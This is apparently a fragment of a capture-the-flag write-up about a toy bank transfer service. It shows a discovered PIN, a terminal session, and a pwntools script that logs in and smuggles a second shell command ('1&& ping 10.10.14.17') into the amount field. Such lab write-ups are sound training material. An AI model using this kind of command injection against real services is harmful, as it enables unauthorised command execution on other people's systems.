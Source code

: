 pwned 0021 !!!
b' [$] PIN is correct, access granted!\n'

![](2021-02-05-17-41-02.png)


 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] 1; ping 10.10.14.17.........
 [!] You waited too long, disconnecting client....



from pwn import *

r = remote("localhost", 910)
r.recvuntil("[$] ")
r.sendline("0021")
sleep(1)
r.sendline("1&& ping 10.10.14.17")
while True:
    try:
        print(r.recvline())
    except EOFError:
        break
r.close()
